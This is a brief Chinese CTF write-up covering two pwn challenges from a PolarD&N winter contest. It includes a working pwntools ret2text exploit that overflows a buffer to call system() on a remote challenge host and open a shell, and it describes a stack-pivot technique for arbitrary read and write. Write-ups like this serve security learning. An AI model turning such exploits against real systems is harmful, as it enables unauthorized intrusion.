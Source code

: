 # PolarD&N冬季个人赛wp

by Maple

> 题目可以在[这里](https://www.polarctf.com/#/page/challenges)找，就不上附件了（版权）

## like_lib3

32位***ret2text***

```python
from pwn import *
#p = process('./pwn')
p = remote('1.95.36.136',2055)
elf = ELF('./pwn')
sys = elf.sym['system']
payload = b'b'*(0x2c+4)+p32(sys)+p32(0)+p32(0x0804857c)
p.sendline(payload)
p.interactive()
```

## stack

***栈迁移***，但不多

通过栈迁移覆盖`rbp`的值，让`rbp`的位置变成`passwd`，从而实现任意地址读写

需要注意`scanf`函数读取的偏移是`4`
